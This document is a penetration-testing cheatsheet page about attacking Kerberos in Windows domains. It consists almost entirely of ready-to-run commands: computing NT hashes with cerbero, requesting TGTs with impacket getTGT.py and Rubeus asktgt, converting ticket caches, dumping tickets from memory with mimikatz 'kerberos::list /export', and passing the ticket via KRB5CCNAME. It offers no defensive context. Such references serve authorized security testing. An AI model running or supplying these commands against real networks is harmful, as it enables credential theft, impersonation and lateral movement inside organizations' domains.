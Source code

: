 ```yaml
---
layout: post
title: / pen / krb
category: pen
parent: cheatsheets
modified_date: 2023-06-09
permalink: /pen/krb
---
```


**Mitre Att&ck Entreprise**: [T1558 Steal and Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/) 

**Menu**
<!-- vscode-markdown-toc -->
1. [prereq](#prereq)
2. [get-nthash](#get-nthash)
3. [get-tgt](#get-tgt)
4. [ccache-convert](#ccache-convert)
5. [krb-export](#krb-export)
6. [krb-ptt](#krb-ptt)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='prereq'></a>prereq

* Which OS ? What Creds ?
![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

### tools

* [Rubeus compilation wiki](https://github.com/GhostPack/Rubeus)
* cerbero
* tickey
* impacket

##  2. <a name='get-nthash'></a>get-nthash
```
# compute nthash from clear-text password
cerbero hash $ztarg_user_pass -u $zdom_fqdn/$ztarg_user_name
$ztarg_user_nthash=""
$ztarg_user_aes256k=""
```

##  3. <a name='get-tgt'></a>get-tgt
```
getTGT.py $zdom_fqdn/$ztarg_user_name@$ztarg_dc_fqdn -aesKey $ztarg_user_aes256k -dc-ip $zdom_dc_ip
getTGT.py $zdom_fqdn/$ztarg_user_name@$ztarg_computer_fqdn -aesKey $ztarg_user_aes256k -dc-ip $zdom_dc_ip

cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_dc_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv
cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_computer_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv

cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$ztarg_user_name /password:$ztarg_user_pass /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

##  4. <a name='ccache-convert'></a>ccache-convert

* Convert linux to windows krb ticket :
```
ticketConverter.py $ztarg_user_name.ccache $ztarg_user_name.krb
cerbero convert -i $ztarg_user_name.ccache -o $ztarg_user_name.krb
```

##  5. <a name='krb-export'></a>krb-export
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

##  6. <a name='krb-ptt'></a>krb-ptt
```bash
# linux
export KRB5CCNAME="$PWD/$ztarg_user_name.krb" 
```

